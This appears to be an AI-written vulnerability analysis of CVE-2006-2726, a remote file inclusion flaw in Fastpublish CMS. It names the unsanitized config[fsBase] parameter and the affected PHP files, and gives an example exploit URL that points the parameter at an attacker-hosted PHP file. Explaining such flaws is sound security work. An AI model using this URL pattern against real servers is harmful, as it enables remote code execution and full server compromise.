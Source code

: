 Based on the provided content, here's the analysis of CVE-2006-2726:

**Root Cause of Vulnerability:**
The vulnerability is a Remote File Inclusion (RFI) flaw. This occurs because the `config[fsBase]` parameter within various PHP files of Fastpublish CMS is not properly sanitized, allowing an attacker to include and execute arbitrary remote files.

**Weaknesses/Vulnerabilities Present:**
- **Remote File Inclusion (RFI):** The application allows the inclusion of external files via a user-controlled parameter, leading to arbitrary code execution.
- **Lack of Input Sanitization:** The application fails to validate and sanitize user input provided through the `config[fsBase]` parameter.

**Impact of Exploitation:**
- **Arbitrary Code Execution:** An attacker can execute arbitrary PHP code on the server by including a malicious PHP file from a remote location.
- **Full System Compromise:** Successful exploitation can potentially lead to complete compromise of the server, allowing the attacker to access sensitive data, modify files, and potentially use the server as a staging point for further attacks.

**Attack Vectors:**
- **HTTP GET Request:** The vulnerability can be exploited by crafting a malicious HTTP GET request containing a URL to a malicious PHP file in the `config[fsBase]` parameter.

**Required Attacker Capabilities/Position:**
- **Network Access:** The attacker needs to have network access to the vulnerable server.
- **Ability to Host Malicious File:** The attacker must be able to host a malicious PHP file accessible via a URL.
- **Knowledge of Vulnerable Parameters:** The attacker needs to be aware of the vulnerable parameters (`config[fsBase]`) in the identified PHP files (`drucken.php`, `drucken2.php`, `email_an_benutzer.php`, `rechnung.php`, `search.php`, `admin.php`).

**Vulnerable Files:**
The following files in the Fastpublish CMS are vulnerable to RFI:
- `drucken.php`
- `drucken2.php`
- `email_an_benutzer.php`
- `rechnung.php`
- `/suche/search.php`
- `/adminbereich/admin.php`

**Example Exploit URL Structure:**
```
http://www.site.com/[fastpublish_path]/<vulnerable_script>.php?config[fsBase]=[evil_scripts]
```
Where:
- `[fastpublish_path]` is the path to the Fastpublish CMS installation.
- `<vulnerable_script>.php` is one of the vulnerable PHP files listed above.
- `[evil_scripts]` is the URL of the attacker's malicious PHP file.

This information provides a comprehensive overview of the CVE-2006-2726 vulnerability, including its cause, impact, and exploitation details, based on the provided content.